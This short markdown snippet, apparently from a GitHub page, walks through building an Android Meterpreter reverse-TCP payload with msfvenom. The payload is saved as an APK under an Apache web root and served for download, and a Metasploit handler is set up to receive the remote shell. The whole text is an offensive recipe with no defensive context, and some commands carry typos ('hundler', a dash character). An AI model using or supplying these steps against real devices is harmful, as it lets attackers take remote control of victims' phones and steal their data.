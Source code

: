 ## Android - Msfvenom

```bash

msfvenom –p android/meterpreter/reverse_tcp LHOST=192.168.0.112 LPORT=9009 R> /var/www/html/ehacking.apk

```
start apache

```bash
service apache2 start 
```

start msfconsole 

```bash
msf> use multi/hundler

msf> set payload android/meterpreter/reverse_tcp

msf> set LPORT 9009

msf> set LHOST <your ip>

msf> exploit 
```





